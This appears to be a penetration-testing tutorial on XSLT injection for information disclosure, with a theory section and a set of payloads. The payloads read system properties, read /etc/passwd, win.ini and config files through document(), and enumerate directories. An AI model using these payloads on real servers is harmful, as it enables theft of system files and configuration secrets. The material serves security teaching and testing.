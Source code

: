 ```yaml
---
title: 'XSLT Injection: Information Disclosure Explained'
description: Learn about XSLT injection techniques for information disclosure, including
  environment variable extraction and file access.
keywords:
- XSLT injection
- information disclosure
- environment variables
- file access
- system properties
- sensitive data
- security vulnerabilities
- configuration files
- XML transformation
---
```


# Information Disclosure

## Context

This article aims to demonstrate how attackers can leverage XSLT (Extensible Stylesheet Language Transformations) injection to disclose sensitive information from server environments. By crafting specific XSLT payloads, attackers can extract data such as environment variables, system properties, file contents, and more. This knowledge assumes familiarity with XSLT processing, XML parsing, HTTP requests, and the basics of XSLT Injection.

## Theory

### XSLT Transformation and Information Exposure

XSLT is a language primarily used to transform XML data into different formats. However, when an application improperly handles user-supplied XSLT or XML, an attacker could inject XSLT code that accesses sensitive server-side resources. If XSLT processors are not sandboxed correctly, they might expose various system properties, environment variables, and contents of files.

In a typical attack sequence, the attacker injects XSLT code to access or enumerate sensitive data through the transformation's output.

### Sensitive Data Accessible via XSLT Injection

The vulnerability arises from the unrestricted use of XSLT functions such as `document()` and `system-property()`, which, if executed on the server, can return sensitive information. The injected XSLT executes on the server, and any extracted data is often returned via the HTTP response. This scenario assumes that the application trusts user-supplied XSLT or XML input, thus permitting arbitrary execution of templates and leading to potential information disclosure.

### Common Disclosure Vectors in XSLT Injection

Typical targets for XSLT injection in information disclosure attacks include environment variables, system properties, file contents, directory listings, and configuration files. Crafted XSLT payloads can be designed to enumerate files, extract environment variables, or reveal sensitive configuration data.

## Practice

### Extracting Environment Variables via XSLT Injection

To extract environment variables and system properties using XSLT Injection, attackers can execute carefully crafted payloads like these:

- Retrieve the operating system's name:
  ```xml
  <xsl:value-of select="system-property('os.name')"/>
  ```

- Discover the home directory of the user running the process:
  ```xml
  <xsl:value-of select="system-property('user.home')"/>
  ```

Upon executing these payloads, the attacker obtains critical environment or system property values from the server.

### Reading Arbitrary Files with `document()`

The `document()` function in XSLT can be misused to access arbitrary files on the server:

- Attempt to read the contents of `/etc/passwd` on a Unix-like system:
  ```xml
  <xsl:value-of select="document('/etc/passwd')"/>
  ```

- Attempt to read the contents of `win.ini` on a Windows system:
  ```xml
  <xsl:value-of select="document('C:/Windows/win.ini')"/>
  ```

Through these payloads, attackers can retrieve file contents directly from the server's filesystem.

### Directory Listing and File Enumeration via XSLT

An attacker might list files and directories using an XSLT payload designed for enumeration:

- Enumerate files and directories under `/etc/` on Unix-like systems:
  ```xml
  <xsl:for-each select="document('file:///etc/')/*">
      <xsl:value-of select="name()"/>
      <xsl:text>&#10;</xsl:text>
  </xsl:for-each>
  ```

Executing this payload allows the attacker to enumerate the files and directories present on the server.

### Leaking Application Configuration via XSLT

Sensitive application configurations can be exposed by reading configuration files:

- Attempt to read an application's configuration file:
  ```xml
  <xsl:value-of select="document('/path/to/application/config.xml')"/>
  ```

This technique provides the attacker access to application configurations or secrets embedded within the files.

### Exposing XSLT Debug Information

XSLT's debugging capabilities can also be leveraged to disclose server details:

- Force XSLT processor to display debug information:
  ```xml
  <xsl:message terminate="no">Debug: 
      <xsl:value-of select="system-property('java.version')"/>
  </xsl:message>
  ```

Such a payload can help the attacker gain insights into the server environment and specifics about the XSLT engine in use.

## Tools

- **Burp Suite**
- **curl**
- **xsltproc**